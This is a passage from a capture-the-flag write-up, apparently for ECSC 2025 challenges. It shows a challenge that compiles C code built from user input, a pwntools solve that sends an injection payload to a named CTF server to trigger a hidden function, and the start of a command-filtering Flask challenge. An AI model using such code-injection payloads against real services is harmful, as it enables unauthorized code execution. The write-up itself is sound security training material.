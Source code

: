 ```python
    printf("%s",flag);
    return flag;
}}

void g(char* {arg}){{}}

int main(){{
    g(NULL);
    return 0;
}}
"""
    name = "test"
    source = f"/tmp/{name}.c"
    outfile = f"/tmp/{name}"
    open(source, 'w').write(template)
    os.system(f"export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin && gcc {source} -o {outfile}")
    os.system(f"{outfile}")
    os.remove(source)
    os.remove(outfile)


main()
```

In this case we can only work with the function argument parameter and have to make it somehow invoke function f(). After a lot of trial an error and consulting with some LLMs I came out with this strange thing.

**Solve:**

```python
from pwn import *


conn = remote('caller.ecsc25.hack.cert.pl', 5212)


payload = "x[(f(),1)]"

conn.sendline(payload)
conn.interactive()

```


## 10. Yet Another WAF

**Source:**

```python
import json
import requests
from flask import Flask, request, abort

app = Flask(__name__)


@app.route('/run', methods=['POST'])
def run():
    payload = json.loads(request.data)
    if 'cmd' in payload:
        command = payload['cmd']
        if command != 'id':
            abort(403)
        else:
```